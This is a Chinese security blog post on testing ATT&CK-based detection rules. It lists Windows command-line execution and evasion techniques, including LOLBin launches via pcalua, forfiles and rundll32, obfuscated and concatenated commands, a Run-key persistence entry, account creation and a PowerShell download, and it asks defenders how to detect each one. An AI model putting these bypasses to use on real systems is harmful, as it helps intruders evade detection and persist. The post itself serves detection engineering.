# ATT&CK 矩阵的攻与防 - 先知社区

ATT&CK 矩阵的攻与防

- - -

# 前言

对于 ATT&CK，我相信搞安全的师傅们都在熟悉不过了，ATT&CK 把攻击者所运用的技术都以各种 TTP 展现出来了，如何将 ATT&CK 框架，更好的利用在我们的企业中，看似是一个简单的问题，实际操作却会出现许多无法意料的问题，就比如我们 ATT&CK 对应的计划任务，我们对应的规则应该怎么写，写完了规则的准确率是多少，误报率是多少，召回率是多少，写的规则是否真的能检测业务蓝军或者是入侵者，企业是否有支持 ATT&CK 运营的基础设施平台，ATT&CK 运营人员的水位怎么样，因为你的规则匹配出了计划任务，但是仅凭借计划任务我们就能判断出改终端的行为是恶意的吗？不能这么草率吧，以及 T1059.001 的 powershell，我们又打算如何设计我们的规则，是单纯的匹配恶意 powershell 文本的执行，比如 powerspliot 还是 empire 的脚本，还是根据 powershell 的功能来判断恶意行为？比如执行，下载，-bypass 参数来匹配恶意行为，或者是直接套用微软的 powershell 语言限制模式，当然，这几种模式没有优劣之分，我们红军需要的是用已知的技术解决方案满足企业的安全需求，我们防守方的优势在于攻击者对于我们安全防线水位的未知  
当然，我们企业红军所面临的蓝军或者攻击者，他们的攻击方式都是很简单致命的，就是一条攻击链路不会有没必要的攻击行为，这对于我们防守方来说，我们设计了很多规则，看似巧妙精密，但是还是会被企业的蓝军绕过，每次复盘都有许多能提升的水位，当然，废话了这么多，此篇文章仅是以笔者的攻防思路，输出自己对于 ATT&CK 矩阵的理解，文章尽量会按照以前的风格浅显易懂，如果有师傅对 ATT&CK 感兴趣，欢迎与我交流，可以邮箱联系我

# ATT&CK 规则的攻与防

防守方的难点在于，我们部署好了的防线，无论是 WAF/RASP，蜜罐，IDS/IPS，还是我们基于 ATT&CK 矩阵的检测防线，我们的防守水位到底是怎样的，蓝军，攻击者是基于对我们企业防线未知的情况下发动的进攻，而我们红军自己写的规则，我们最清楚不过，那对于已知的防守情况发动针对性的测试，我相信也会提升企业的安全水位，所以，基于 ATT&CK 的攻与防，攻在于我们，防，也在于我们

# 执行

这是一个经久不衰的问题，还记得最初搞站的时候，用的菜刀，传了一个 exe 上去，要 cd 到 exe 的目录，但是目录有中文啊，我 cd 不过去啊，我想了很久不知道怎么解决，后来在吐司的论坛上看见，可以写入 bat，再回想，这也是自己第一次明白了渗透所谓的灵活变通，第二次有印象的，是一个 aspx 的站点，站内 pe 无法执行，无法启用 powershell，mshta hta 玄学不上线，dll 运行报错，我傻眼了，这怎么上线啊，经过到处摸索，发现可以通过 aspx 上线，那时候我才明白，语言环境的作用不仅仅是一句话木马的作用，回到正题，对于执行这一块，正如笔者所说，可执行的方式有很多，不仅限于 exe。  
做一个简单的总结，攻击者有哪些常见执行 exe 的方法以及变种呢（仅针对 windows）  
1.后缀替换（这名字取得很不专业）  
比如用 ps1,bat,vbs,dll,hta 等文件

2.语言脚本  
常见的比如 aspx,php,python,java,node.js  
python3 -c "import os;output=os.popen('C:/Users/xinxin/Desktop/mmm.exe');"  
[](https://xzfile.aliyuncs.com/media/upload/picture/20220513115239-21fe9424-d270-1.png)  
3.第三方服务  
比如我们的 7zip，他也可以执行  
[](https://xzfile.aliyuncs.com/media/upload/picture/20220512104940-2b39f4ac-d19e-1.png)  
当然，这对于我们防守方也是十分头疼，时不时攻击者找到一个东西 bypass 一下，这种规则怎么写嘛，办公软件，不可能直接拉黑吧，可以考虑进程白名单，你 7zip 进程起的进程，不让执行，当然，这很考验企业的基础设施

4.白 + 黑  
就那执行 exe 来说，我们出了通过双击，cmd 运行以外，还可以存在如下运行方式  
利用 pcalua  
Pcalua -m -a axgg.exe  
[](https://xzfile.aliyuncs.com/media/upload/picture/20220513114225-b42b0cc6-d26e-1.png)  
利用 forfiles  
forfiles -P c:\\windows\\ /m \*.prx /c "cmd /c c:\\users\\axingg\\desktop\\axgg.exe  
[](https://xzfile.aliyuncs.com/media/upload/picture/20220513114444-0702cb3c-d26f-1.png)  
利用 rundll32 执行  
rundll32 advpack.dll RegisterOCX axgg.exe  
[](https://xzfile.aliyuncs.com/media/upload/picture/20220513114913-a76fa19e-d26f-1.png)  
当然，rundll32 还可以变形出很多  
rundll32 url.dll,FileProtocolHandler file://C:\\Users\\axingg\\Desktop\\axgg.exe  
rundll32 url.dll,OpenURL axgg.exe  
rundll32 zipfldr.dll, RouteTheCall axgg.exe  
rundll32 javascript:"..\\mshtml,RunHTMLApplication ";document.write("\\74script language=javascript)"+(new%20ActiveXObject("WScript.Shell")).Run("axgg.exe")+"\\74/script)")

5.变形  
其实这一点就有点类似于我上篇文章，命令混淆，变形的思路在于替换，缩短，拼接，我们来看看

先说替换，我们可以怎么替换，比如 Pcalua -m -a axgg.exe，我们可以使用环境变量替换某个字符串  
P%comspec:~20,1%alua -m -a axgg.%comspec:~24,1%x%comspec:~24,1%  
[](https://xzfile.aliyuncs.com/media/upload/picture/20220513121346-159c3aee-d273-1.png)  
提个问题，关于 pcalua 这个 exe，我们可以去了解一下它具体是干嘛的，出了-m -a 参数还有什么，是否只能执行 exe，dll，vbs 这些能够执行吗？

利用特殊字符串替换  
比如我们的命令，forfiles -P c:\\windows\\ /m *.prx /c "cmd /c c:\\users\\axingg\\desktop\\axgg.exe  
[](https://xzfile.aliyuncs.com/media/upload/picture/20220513121732-9c34f974-d273-1.png)  
我们-p 可以替换为/p，甚至可以用特殊字符串绕过  
forfiles /ᵖ c:\\windows\\ /m* .prx /c "cmd /c c:\\users\\axingg\\desktop\\axgg.exe  
同样也提一个问题，后面的/m /c 也能够用-m -c 替换吗？如果你是防守方，这一条 att&ck 的规则你会怎么写？对于这种特殊字符串到底该如何检测？

巧用 copy&&rename  
比如我们的命令，rundll32 url.dll,FileProtocolHandler file://C:\\Users\\axingg\\Desktop\\axgg.exe  
copy c:\\Windows\\System32\\rundll32.exe c:\\Users\\axingg\\Desktop\\axgg.axgg  
axgg.axgg url.dll,FileProtocolHandler file://C:\\Users\\axingg\\Desktop\\axgg.exe  
[](https://xzfile.aliyuncs.com/media/upload/picture/20220513122329-7111b13c-d274-1.png)  
至于 rename 我就不截图了，同样也有一个问题，那么我们的 copy,rename 能否变化呢？

在举一个列子，权限维持我们会用到注册表，如下命令为最常见的命令  
reg add "HKEY\_CURRENT\_USER\\Software\\Microsoft\\Windows\\CurrentVersion\\Run" /v axgg /t REG\_SZ /d "C:\\Users\\axgg\\evil.exe" //开机自己运行  
如果你是防守方，你会怎么写规则？不管怎么匹配，HKEY\_CURRENT\_USER\\Software\\Microsoft\\Windows\\CurrentVersion\\Run 这一个注册表的位置肯定是重点  
那我们怎么绕过呢，我们可以用 reg import  
我相信有朋友已经心领神会了，这也是替换，用相似的参数去绕过

接下来就是缩短，这个怎么理解，还是以命令行举例，添加用户  
net user axgg 123456 /add  
net1 user axgg 123456 /add  
其实我们/add => /ad，我相信这个大部分师傅也是知道的  
[](https://xzfile.aliyuncs.com/media/upload/picture/20220513135731-93d8d4ae-d281-1.png)  
再举一个列子，powershell 能够下载文件，但是我很少看见师傅用这个命令，Invoke-webrequest  
powershell.exe Invoke-webrequest -uri [http://192.168.1.28:1456/test.txt](http://192.168.1.28:1456/test.txt) -o test.txt  
[](https://xzfile.aliyuncs.com/media/upload/picture/20220513140556-c0a9e0a8-d282-1.png)  
而我们的 Invoke-webrequest ==》iwr  
powershell.exe iwr -uri [http://192.168.1.28:1456/test.txt](http://192.168.1.28:1456/test.txt) -o test.txt  
这就是缩短

那什么是拼接呢，因为这个概念我最早接触于 powershell 绕过 AMSI，分享技术的博主就提出了这个概念，但是对于其他命令行怎么绕过，一直没有大体思路  
但我们也可以举个例子，还是以加用户为例子  
set a1=er la&& set a2=ne&& set a3=t us&& set a4=cker qaz2022&& set a5=WSX /a&& set a6=d&&call echo %a2%%a3%%a1%%a4%%a5%%a6%  
[](https://xzfile.aliyuncs.com/media/upload/picture/20220513141245-b4a0e9ea-d283-1.png)

# 后记

希望这篇文章能给做 ATT&CK 体系的师傅们带来一些新的理念和想法，当然，我上面所举的列子，可能在某些检测体系上会原形毕露，直接被当场逮捕，但是重要的是提供一个思路，当然，如果师傅们喜欢这篇文章，阿鑫后续一定会对 att&ck 框架每一个 TTP 给出自己的攻防体系思考，之前写的文章挖了很多坑，开了一些系列，都没有坚持做下去，是因为事情太杂，时间不够用，但是笔者现在正在从事研究 ATT&CK 框架体系，接触的时间不长，如果有师傅对 ATT&CK 感兴趣，欢迎与我交流，可以邮箱联系我[lc999831@gmail.com](mailto:lc999831@gmail.com),文章如有错误，希望师傅们斧正
